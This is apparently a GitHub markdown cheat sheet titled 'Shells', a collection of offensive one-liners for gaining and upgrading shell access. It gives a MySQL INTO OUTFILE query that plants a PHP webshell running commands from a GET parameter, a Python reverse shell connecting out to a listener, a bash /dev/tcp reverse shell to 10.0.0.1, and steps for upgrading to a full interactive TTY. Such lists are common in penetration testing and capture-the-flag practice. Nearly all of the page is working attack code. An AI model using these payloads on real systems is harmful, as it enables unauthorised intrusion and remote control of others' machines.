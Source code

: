 # Shells

## Webshell

### Mysql

```bash
SELECT '<?php passthru($_GET[cmd]);?>' INTO OUTFILE '<file_location>/<filename>'
```
---

## Python

```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip_listener>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
---

## Reverse shell bash

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
---

## Get better shell

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
ctrl + z
stty raw -echo
fg
reset
```
> does not work for ZSH, use BASH !